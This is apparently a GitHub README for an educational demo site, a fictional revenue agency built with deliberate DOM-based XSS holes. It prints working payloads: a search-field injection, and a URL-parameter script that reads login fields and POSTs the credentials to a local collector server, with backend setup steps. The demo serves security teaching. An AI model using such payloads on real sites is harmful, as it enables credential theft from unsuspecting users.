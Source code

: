 # No Man's Land Revenue Agency 

This is a demo of two DOM-based XSS vulnerabilities in a specifically crafted for this purpose website.
Imagine you're in No Man's Land and you need to access their revenue agency in order to fill in some tax statements...

## Instructions

To get started, navigate to No Man's Land Revenue Agency home page: [https://mtsanovv.github.io/nomanslandra/frontend/index.html](https://mtsanovv.github.io/nomanslandra/frontend/index.html). Feel free to play around with the website and figure out the XSS vulnerabilities yourself (or you can just check out the section below).

## XSS vulnerabilities in the website

- To inject malicious code via html element, open the [search page](https://mtsanovv.github.io/nomanslandra/frontend/search.html) and put the following string in the query input field and then press 'Search':
```article');$("#search").append("<img src=\"https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif\"/><iframe width=\"1\" height=\"1\" src=\"https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1&loop=1\"><\/iframe>");console.log('```

- To inject malicious code via URL and collect some credentials:
    1. Create a MySQL database using the ```storeCredentials.sql``` file from the ```backend``` directory and grant ```SELECT/INSERT/UPDATE/DELETE``` privileges for it to some user
    2. Navigate to the ```backend``` directory and configure the MySQL properties in ```server.js``` (make sure to use the user from step 1)
    3. Run ```node server.js``` (you may need to run first ```npm install express mysql cors``` in the ```backend``` directory)
    4. Navigate to the [malicious login page URL](https://mtsanovv.github.io/nomanslandra/frontend/login.html?continue=$.ajax({contentType:%27application/json%27,type:%27POST%27,url:%27http://localhost:3000/storeCredentials%27,data:JSON.stringify({username:$(%27input:eq(0)%27).val(),password:$(%22input:eq(1)%22).val()})});$(%22article%22).first().append(%27%3Cimg%20src=%22https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif%22/%3E%3Ciframe%20width=%221%22%20height=%221%22%20src=%22https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1%22%3E%3C/iframe%3E%27);console.log)

## Notes
- Created for educational purposes only and to demonstrate how bad XSS vulnerabilities can be
- Recommended browser engine: Chromium (Chrome). Gecko (Firefox) might also work but it has not been tested and WebKit (Safari) is not recommended due to odd behavior
- This is the unencoded JavaScript code for the 'continue' parameter in the malicious URL:
```$.ajax({contentType:'application/json',type:'POST',url:'http://localhost:3000/storeCredentials',data:JSON.stringify({username:$('input:eq(0)').val(),password:$("input:eq(1)").val()})});$("article").first().append('<img src="https://media.tenor.com/7XnVtgeQv4EAAAAC/money-pool-rich.gif"/><iframe width="1" height="1" src="https://www.youtube.com/embed/_w7Ft_JTbH4?autoplay=1"></iframe>');console.log```
- The website is based on Telephasic by HTML5UP!
- Inspired by: [https://btvnovinite.bg/bulgaria/shegadzhii-udariha-sajta-na-nap.html](https://btvnovinite.bg/bulgaria/shegadzhii-udariha-sajta-na-nap.html)

## License
Creative Commons Attribution 3.0 Unported
[http://creativecommons.org/licenses/by/3.0/](http://creativecommons.org/licenses/by/3.0/)

*M.Tsanov, 2023*
